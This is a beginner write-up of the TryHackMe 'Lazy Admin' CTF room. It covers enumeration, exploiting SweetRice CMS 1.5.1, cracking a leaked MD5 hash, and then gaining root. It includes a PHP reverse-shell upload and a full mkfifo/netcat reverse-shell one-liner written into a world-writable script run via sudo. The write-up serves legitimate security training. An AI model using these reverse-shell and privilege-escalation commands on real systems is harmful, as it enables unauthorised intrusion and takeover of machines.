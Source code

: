 ```yaml
---
title : Lazy Admin - TryHackMe WriteUp
author : Seif-Allah
description : Beginner level writeUp for the "Lazy Admin" room.
layout : post
category : CTF-WriteUp
---
```


### <mark style='background-color: white'>Introduction</mark>
'Lazy Admin' is an easy room made by [MrSeth6797](https://tryhackme.com/p/MrSeth6797), great for practice challenges. 
Let's get started! 

### <mark style='background-color: white'>Enumeration</mark>
Starting Nmap with the -A flag, here's the output : 
- - -
<pre>
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCo0a0DBybd2oCUPGjhXN1BQrAhbKKJhN/PW2OCccDm6KB/+sH/2UWHy3kE1XDgWO2W3EEHVd6vf7SdrCt7sWhJSno/q1ICO6ZnHBCjyWcRMxojBvVtS4kOlzungcirIpPDxiDChZoy+ZdlC3hgnzS5ih/RstPbIy0uG7QI/K7wFzW7dqMlYw62CupjNHt/O16DlokjkzSdq9eyYwzef/CDRb5QnpkTX5iQcxyKiPzZVdX/W8pfP3VfLyd/cxBqvbtQcl3iT1n+QwL8+QArh01boMgWs6oIDxvPxvXoJ0Ts0pEQ2BFC9u7CgdvQz1p+VtuxdH6mu9YztRymXmXPKJfB
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC8TzxsGQ1Xtyg+XwisNmDmdsHKumQYqiUbxqVd+E0E0TdRaeIkSGov/GKoXY00EX2izJSImiJtn0j988XBOTFE=
|   256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILe/TbqqjC/bQMfBM29kV2xApQbhUXLFwFJPU14Y9/Nm
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
</pre>
- - - 
Examining the source code of the running web service looking for some creds, found nothing. So I fire up gobuster using the *directory-list-2.3-medium.txt* wordlist and found a subdirectory called */content* : 
![/content](/assets/images/writeups/thm/lazy_admin/user_flag.png)
Found out that "Basic-CMS Sweetrice" is running here, firing up gobuster again and adding */content* to the URI and here's the result: 
![/gobustercontent](/assets/images/writeups/thm/lazy_admin/gobuster_content.png)
Did some research about this CMS and found that the 1.5.1 version suffers from a code execution vulnerability via the use of a cross site request forgery flaw.
Check this link : [SweetRice-1.5.1-Code-Execution](https://packetstormsecurity.com/files/139521/SweetRice-1.5.1-Code-Execution.html)
So basically, this means that I can upload a php reverse shell and execute it but first we need some credentials to login and then upload our file, so we need more enumeration.
I examine the other subdirectories and there's a specific file that got my attention : */content/inc/mysql\_backup/mysql\_backup/mysql\_bakup\_20191129023059-1.5.1.sql* ! 
Examining it carefully, I found a username and a password hash (*line 79*).
The password hash type is MD5, I used hydra to crack it using the *rockyou.txt* wordlist and then logged in the *Sweetrice* CMS, easy hein ? 

### <mark style='background-color: white'>USER.txt - Easy Peasy</mark>
To get the reverse shell, I simply started my listener (*nc -nlvp 1234*) and then copied the */usr/share/webshells/php/php-reverse-shell.php* file inside the ads section, save it and run it as mentionad in the script above. and boom! got the reverse shell ! 
- - - 
<pre>
listening on [any] 1234 ...
connect to [10.2.36.150] from (UNKNOWN) [10.10.217.36] 56240
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 18:01:47 up 5 min,  0 users,  load average: 1.37, 2.14, 1.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
</pre>
- - -
This time, I was lucky by opening the *user.txt* file without any privelage escalation, and yeah it works ! 
- - - 
<pre>
$ cd /home
$ ls
itguy
$ cd itguy
$ cat user.txt
THM{#####################}
</pre>
- - -


### <mark style='background-color:white'>ROOT.txt</mark>
Now we need to find a way to get the root flag !
First of all, I ran *sudo -l* command : 
- - -

<pre>
$ sudo -l 
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ 
</pre>

- - -
Well, the user www-data can run the following command ? let's open the backup.pl file ! 
- - -
<pre>
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
</pre>
- - -
hum ! can we edit the copy.sh file so it gets executed as root ? 
- - -
<pre>
$ ls -al /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
</pre>
- - -
and yeah we can edit it, SUPER ! So the first idea tha came in my mind is to get an another reverse shell using this command : 
- - - 
<pre> 
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc \<local-ip\> 5554 \>/tmp/f' \>/etc/copy.sh
</pre>
- - - 
After setting up the listener and ran the command, I got the root shell ! now it's time the get root flag !! :) finally ! 
- - - 
<pre>
root@kali:~# nc -nlvp 5554
listening on [any] 5554 ...
connect to [10.2.36.150] from (UNKNOWN) [10.10.217.36] 51512
/bin/sh: 0: can't access tty; job control turned off
# cat /root/root.txt
</pre>
- - - 
Congrats, now you pissed off the lazy admin ! 
